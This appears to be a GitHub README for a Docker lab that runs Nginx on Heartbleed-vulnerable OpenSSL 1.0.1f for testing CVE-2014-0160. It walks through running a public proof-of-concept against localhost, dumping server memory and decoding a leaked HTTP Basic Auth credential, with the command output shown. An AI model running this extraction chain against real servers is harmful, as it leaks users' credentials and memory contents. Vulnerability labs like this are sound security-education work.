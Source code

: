## Testing Heartbleed with Nginx Dockerfile

This repository contains **Dockerfile** of **Nginx** with the vulnerable **OpenSSL version (1.0.1f)** for testing **CVE-2014-0160 Heartbleed** Vulnerability.

### Base Docker Image

* debian:latest

### Installation

1. Install [Docker](https://www.docker.com/)
    - Example with Debian: `apt-get install -y docker`

2. Download from public [Docker Hub Registry](https://registry.hub.docker.com/) the debian base image: 
`docker pull debian:latest`

3. Build the image from Dockerfile: `docker build -t heartbleed_nginx_img .`

### Usage

##### Start the Heartbleed+Nginx container

`docker run -i -t -p 1500:443 heartbleed_nginx_img`

##### Testing Heartbleed Vulnerability (CVE-2014-0160) with HTTP Basic Authentication method

1. Download the [Heartbleed-poc Python script](ttps://github.com/sensepost/heartbleed-poc/blob/master/heartbleed-poc.py) (For Testing Purposes Only !). This is a modified version originally by Jared Stafford <jspenguin@jspenguin.org>.
    **Thanks to SensePost for this one.**
2. Open two new Tabs on your current terminal and run :

    - First Tab (Generating **x100 GET requests** using **HTTP Basic Auth** with curl command):
 
        `for loop in {0..100..1}; do curl -X GET -s -i -k -u admin:myP@ssword0MG https://127.0.0.1:1500| grep -E "200"; done`

        
        HTTP/1.1 200 OK
        HTTP/1.1 200 OK
        HTTP/1.1 200 OK
        HTTP/1.1 200 OK
        snipp...
    - Second Tab (Generating **x100 Heartbeats(-n 100) requests** and write the memory dump to **"dump.bin"** file, then grab the result from **"Authorization"** field from memory dump and finally decode **Base64** result string to plain text in clear **^^**):

        `python heartbleed-poc.py -f dump.bin -q -n 100 -p 1500 127.0.0.1 && grep -a "^Authorization:" dump.bin | head -n1 | awk -F " " '{print $3}' | tr -d '\n\r' | base64 --decode && echo`

       
        WARNING: server 127.0.0.1 returned more data than it should - server is vulnerable!
        ... received message: type = 22, ver = 0302, length = 66
        ... received message: type = 22, ver = 0302, length = 925
        ... received message: type = 22, ver = 0302, length = 331
        ... received message: type = 22, ver = 0302, length = 4
        ... received message: type = 24, ver = 0302, length = 16384
        WARNING: server 127.0.0.1 returned more data than it should - server is vulnerable!
        snipp...
        admin:myP@ssword0MG

